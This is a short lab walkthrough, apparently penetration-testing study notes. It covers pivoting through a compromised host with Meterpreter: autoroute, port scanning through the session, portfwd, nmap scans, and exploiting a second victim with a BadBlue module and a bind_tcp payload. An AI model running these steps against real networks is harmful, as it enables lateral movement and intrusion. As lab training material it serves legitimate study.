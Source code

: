 # Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim1 interface
2. Add a route with meterpreter -- ```run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet(the lab uses /20)```
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```
4. Alternatively you can run just nmap form the local host -- ```nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port
